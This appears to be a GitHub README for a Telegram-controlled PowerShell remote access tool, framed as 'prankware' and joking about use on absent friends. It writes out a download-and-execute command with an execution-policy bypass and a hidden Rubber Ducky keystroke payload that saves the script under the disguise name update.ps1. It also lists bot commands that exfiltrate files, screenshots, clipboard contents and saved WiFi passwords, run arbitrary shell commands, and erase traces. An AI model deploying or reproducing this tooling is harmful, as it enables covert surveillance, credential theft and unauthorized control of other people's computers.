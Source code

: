 

# Telegram-Controlled PowerShell Script

**Get persistent remote control access through Telegram commands.**
Don't use it when your friends are away from their computer 🤫
This script allows you to control a Windows system remotely through Telegram, offering various functionalities like taking screenshots, sending files, recording audio/video, locking or restarting the system, and more.

## 🛠 Prerequisites

* Windows 10 or newer
* PowerShell 5 or later (built-in)
* Internet connection
* [ffmpeg](https://ffmpeg.org/download.html) installed and in system PATH (for audio/video recording)
* A Telegram bot token (from [@BotFather](https://t.me/BotFather))
* Your own Telegram user ID (use [@userinfobot](https://t.me/userinfobot))

### 📥 How to Create a Telegram Bot

1. Open Telegram and search for `@BotFather`.
2. Start a conversation and type `/newbot` to create a new bot.
3. Follow the instructions to set a name and username for your bot.
4. After completion, you will receive a **bot token** which you'll use in the script.

## 🔒 Enable Script Execution

Before running the script, allow PowerShell to execute local scripts:

### Powershell (Permanent fix)

```powershell
Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned
```

### Powershell (One-time fix for your session)

```powershell
Set-ExecutionPolicy -Scope Process -ExecutionPolicy Bypass
```

### Powershell pipeline

```powershell
iwr 'https://example.com/urfile.ps1' -UseBasicParsing -OutFile $env:TEMP\prankware.ps1; powershell -ep bypass -File $env:TEMP\prankware.ps1
```

### Hidden PowerShell Ducky Script EXAMPLE
```txt
GUI r
DELAY 300
STRING powershell -WindowStyle Hidden -ep bypass -Command iwr 'https://example.com/urfile.ps1' -UseBasicParsing -OutFile $env:TEMP/update.ps1; powershell -ep bypass -File $env:TEMP/update.ps1
ENTER
```
---

## 📌 Available Commands

### System Control

* `/lock` → Locks the workstation.
* `/restart` → Restarts the computer.
* `/shutdown` → Shuts down the computer.
* `/notepad` → Opens Notepad.
* `/pcname` → Shows the computer name.
* `/ip` → Shows local and public IP addresses.
* `/screenshot` → Takes a screenshot and sends it to the chat.
* `/sendfile <path>` → Sends a file from the local disk.
* `/sendfolder <path>` → Sends a zipped folder.
* `/visit <url>` → Opens a URL in the default browser.
* `/screenshot`  →  Sends a screenshot.

### Navigation and File Operations

* `cd <path>` → Change directory.
* `cd` → Show current directory.
* `ls` or `dir` → List files/folders in current directory.
* `/delete <path>` → Delete a file or folder.
* `/rename <old> <new>` → Rename or move a file/folder.

### Monitoring & Processes

* `/processes` → List running processes.
* `/kill <pid>` → Kill process by PID.
* `/tasklist` → Top 25 processes by memory usage.
* `/taskkill <name>` → Kill processes by name.
* `/services` → List running services.

### Clipboard & System Info

* `/getclipboard` → Get text from clipboard.
* `/setclipboard <text>` → Set text to clipboard.
* `/sysinfo` → System details (CPU, RAM, OS, disk).
* `/wifi` → List saved WiFi networks + passwords.

### Other

* `/help` → Shows all commands.
* `/selfdestruct` → Removes persistence and deletes the script.
* `/cmd <command>` → Run CMD command.
* `/powershell <command>` → Run PowerShell command.

---


